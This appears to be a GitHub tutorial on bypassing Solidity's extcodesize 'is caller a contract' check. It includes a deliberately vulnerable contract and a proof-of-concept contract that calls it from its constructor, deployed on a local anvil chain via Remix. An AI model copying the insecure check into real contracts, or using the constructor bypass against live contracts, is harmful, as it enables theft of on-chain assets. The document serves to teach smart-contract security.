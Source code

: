 # 👿 isContract Manipulation
## The concept
There are two types of accounts in the Ethereum world.
1. EOA Externally Owned Accounts, these are users of wallets
2. Contracts, these are deployed smart contracts,

Sometimes there is a requirement to check if the caller is a EOA or a Contract.<br><br>
The code for this in solidity is to use inline assembly as below.<br><br>
```
assembly {
    contract_codesize := extcodesize(who_is_calling)
}
```
<br><br>
The code checks if the address at ```who_is_calling``` has code associated with it.<br><br>

There is a way to make a malicious contract seem as though there is no code associated with it, and that is by calling the vulnerable contract and function from within the malicious contract's constructor.<br><br>
Below is a vulnerable contract and a test contract to test this concept. We will be using anvil from the Foundry suite to deploy from Remix.<br><br>

```
// SPDX-License-Identifier: Unlicensed
pragma solidity 0.8.18;

contract VulnerableContract
{
    function notcontracts() public view returns (uint256 somethingReallyValuable)
    {
        //assume all checks are done
        uint256 contract_codesize;
        address who_is_calling;
        who_is_calling = msg.sender;
        //First check the extcodesize of the caller
        assembly {
            contract_codesize := extcodesize(who_is_calling)
        }
        if(contract_codesize > 0)
        {
            //THIS IS A CONTRACT CALLING SO THEY CAN'T GET OUR SUPER VALUABLE ASSET
            somethingReallyValuable = 0;
        }
        else
        {
            //THIS IS A USER CALLING SO THEY CAN GET ALL OF OUR SUPER VALUABLE ASSET
           somethingReallyValuable = type(uint256).max; 
        }
    }
}

contract testCodeSize{
    uint256 public allTheirValue;
    address public vulnerablecontract;

    //When the constructor runs the extcodesize is still 0
    //lets see what allTheirValue is after the constructor
    //allTheirValue should be uint256 Max value.
    constructor(address _vulnerablecontract){
        vulnerablecontract = _vulnerablecontract;
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }
    //This function should set allTheirValue to 0
    function wontWork() external {
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }


}
```

In the ```testCodeSize``` there is a variable called ```allTheirValue```, this will hold the value that is retrieved from the Vulnerable contract, if the call is able to bypass the check for code size we should see the ```allTheirValue``` variable holding a very large value, however if it fails the value should be "0". In the ```testCodeSize``` contract,  the call to ```VulnerableContract.notcontracts()``` is made from within the constructor and an external function called ```wontWork()```.<br><br>

Below are screenshots of the value held by ```allTheirValue``` after deployment and then after calling the ```wontWork()``` function.<br><br>

First deploy ```VulnerableContract```<br><br>
Copy the deployed address of ```VulnerableContract``` and deploy the ```testCodeSize``` contract<br><br>
Directly after the deployment of the ```testCodeSize``` contract the value of the ```allTheirValue``` variable holds a really large value<br><br>
![valueofallTheirValue1](images/valueofallTheirValue1.png)<br><br>
After calling ```VulnerableContract.notcontracts()``` the value of the ```allTheirValue``` variable is now "0" as the ```testCodeSize``` contract now has code associated with it.<br><br>
![valueofallTheirValue2](images/valueofallTheirValue2.png)<br><br>
